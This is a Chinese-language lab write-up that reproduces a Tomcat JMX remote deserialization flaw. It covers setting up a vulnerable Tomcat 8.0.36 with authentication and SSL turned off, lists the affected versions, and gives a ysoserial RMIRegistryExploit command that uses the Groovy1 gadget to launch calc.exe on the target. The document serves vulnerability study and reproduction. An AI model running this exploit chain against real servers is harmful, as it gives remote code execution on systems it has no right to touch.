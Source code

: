 # 0x00 软件介绍
Tomcat：一款流行的java web应用服务器

# 0x01 复现环境
使用环境：本地搭建的环境  
复现版本：Apache Tomcat 8.0.36

# 0x02 环境搭建
靶机环境：win7_ult_x64_zh-chs

下载并解压apache-tomcat-8.0.36.zip  
下载并安装jdk-7u79-windows-x64.exe  
配置环境变量JAVA_HOME（这里有一点需要注意：配置环境变量JAVA_HOME前也可在cmd.exe下执行“java.exe -version”，原因是jdk安装完毕后会自动将java.exe及相关文件拷贝到c:\windows\system32\下）  
在conf/server.xml中添加以下语句  
```
<Listener className="org.apache.catalina.mbeans.JmxRemoteLifecycleListener" rmiRegistryPortPlatform="10001" rmiServerPortPlatform="10002" />
```
![image](./a0.png)  
然后下载catalina-jmx-remote.jar包和groovy-2.3.9.jar包，放到tomcat的lib目录下  
注意：  
1、下载的catalina-jmx-remote.jar要与对应tomcat版本一致，一般这个jar包的下载地址位于官方tomcat下载目录的extras文件夹里  
2、下载groovy，版本最好为2.3.9，官网已经不提供下载了，附上下载地址：https://mvnrepository.com/artifact/org.codehaus.groovy/groovy/2.3.9  
接着修改bin/catalina.bat，在Execute The Requested Command上面添加  
```
set CATALINA_OPTS=-Dcom.sun.management.jmxremote.ssl=false -Dcom.sun.management.jmxremote.authenticate=false
```
-Dcom.sun.management.jmxremote.ssl=false 指定是否使用SSL通讯  
-Dcom.sun.management.jmxremote.authenticate=false 指定是否需要密码验证  
![image](./a1.png)  
最后运行bin/startup.bat启动tomcat!  
![image](./a2.png)  
查看目标是否启动了JmxRemoteLifecycleListener，即是否监听端口10001，10002，经查看，已启动  
![image](./a3.png)

# 0x03 利用条件
目标是否启动了JmxRemoteLifecycleListener，即是否监听端口10001，10002

# 0x04 影响版本
Apache Tomcat 9.0.0.M1 to 9.0.0.M11  
Apache Tomcat 8.5.0 to 8.5.6  
Apache Tomcat 8.0.0.RC1 to 8.0.38  
Apache Tomcat 7.0.0 to 7.0.72  
Apache Tomcat 6.0.0 to 6.0.47

# 0x05 漏洞复现
攻击环境：Kali-Linux-2020.2-vmware-amd64

下载ysoserial，执行  
```
java -cp ./ysoserial-master-6eca5bc740-1.jar ysoserial.exploit.RMIRegistryExploit 192.168.149.134 10001 Groovy1 calc.exe
```
可以看到靶机上弹出了计算器  
![image](./a4.png)

# 0x06 踩坑记录
坑1：  
tomcat相同版本，在java 1.8.0_131下无法弹出计算机。觉得这个漏洞应该还和java版本有关。和groovy版本也有关  

# 0x07 参考链接
https://blog.csdn.net/littlehaes/article/details/104451590  
https://gv7.me/articles/2018/CVE-2016-8735/  
https://github.com/frohoff/ysoserial  
http://cn.voidcc.com/question/p-zmdzyjue-bbh.html
